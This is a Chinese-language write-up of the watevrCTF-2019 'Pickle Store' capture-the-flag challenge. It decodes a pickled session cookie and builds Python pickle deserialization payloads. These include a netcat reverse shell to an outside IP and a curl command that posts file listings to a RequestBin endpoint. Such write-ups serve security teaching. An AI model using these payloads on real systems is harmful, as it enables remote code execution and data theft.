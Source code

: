 # \[watevrCTF-2019]Pickle Store

## \[watevrCTF-2019]Pickle Store

## 考点

* pickle反序列化

## wp

题目名字也提示了是pickle反序列化

先看看session

```
gAN9cQAoWAUAAABtb25leXEBTfQBWAcAAABoaXN0b3J5cQJdcQNYEAAAAGFudGlfdGFtcGVyX2htYWNxBFggAAAAYWExYmE0ZGU1NTA0OGNmMjBlMGE3YTYzYjdmOGViNjJxBXUu
```

base64解码得到

```
\x80\x03}q\x00(X\x05\x00\x00\x00moneyq\x01M\xf4\x01X\x07\x00\x00\x00historyq\x02]q\x03X\x10\x00\x00\x00anti_tamper_hmacq\x04X \x00\x00\x00aa1ba4de55048cf20e0a7a63b7f8eb62q\x05u.
```

python中使用pickle.dumps()函数序列化，使用pickle.loads()函数反序列化，这两个函数是操作字符串的。

不同版本或者不同平台下Python序列化结果不同

`\x80\x03`是Python pickle反序列化的标准开头

```python
import binascii
import pickle

s='gAN9cQAoWAUAAABtb25leXEBTfQBWAcAAABoaXN0b3J5cQJdcQNYEAAAAGFudGlfdGFtcGVyX2htYWNxBFggAAAAYWExYmE0ZGU1NTA0OGNmMjBlMGE3YTYzYjdmOGViNjJxBXUu'
pickle.loads(binascii.a2b_base64(s))
```

反序列化之后可以得到一个字典

```
{'money': 500, 'history': [], 'anti_tamper_hmac': 'aa1ba4de55048cf20e0a7a63b7f8eb62'}
```

题目提示够买flag需要1000块，感觉修改字典再序列化

![](<../../.gitbook/assets/image (31) (1).png>)

```python
t = {'money': 1000, 'history': [], 'anti_tamper_hmac': 'aa1ba4de55048cf20e0a7a63b7f8eb62'}
binascii.b2a_base64(pickle.dumps(t))
# b'gASVUgAAAAAAAAB9lCiMBW1vbmV5lE3oA4wHaGlzdG9yeZRdlIwQYW50aV90YW1wZXJfaG1hY5SMIGFhMWJhNGRlNTUwNDhjZjIwZTBhN2E2M2I3ZjhlYjYylHUu\n'
```

尝试失败，再看字典的元素，`anti_tamper_hmac`这个元素在够买后发生了改变，应该是后端对key和value做了某种hash加密，由于不知道加密方式，所以不能修改`money`。

尝试反序列化RCE

```python
import binascii
import pickle

shell = '''__import__('os').system('nc 81.68.218.54 30000 -e/bin/sh')'''

class Evil(object):
    def __reduce__(self):
        return (eval, (shell,))
s = Evil()
print(binascii.b2a_base64(pickle.dumps(s)))
```

得到`gASVVgAAAAAAAACMCGJ1aWx0aW5zlIwEZXZhbJSTlIw6X19pbXBvcnRfXygnb3MnKS5zeXN0ZW0oJ25jIDgxLjY4LjIxOC41NCAzMDAwMCAtZS9iaW4vc2gnKZSFlFKULg==`

修改session刷新页面即可反弹shell

![](<../../.gitbook/assets/image (19) (1).png>)

或者使用[`RequestBin`](http://requestbin.cn)接收数据

```python
import binascii
import pickle

shell = '''__import__('os').system("echo `ls` > /tmp/1.txt;curl -v -X POST 'http://requestbin.cn:80/t9dmemt9' -d @/tmp/1.txt")'''

class Evil(object):
    def __reduce__(self):
        return (eval, (shell,))
s = Evil()
print(binascii.b2a_base64(pickle.dumps(s)))
```

![](<../../.gitbook/assets/image (18).png>)
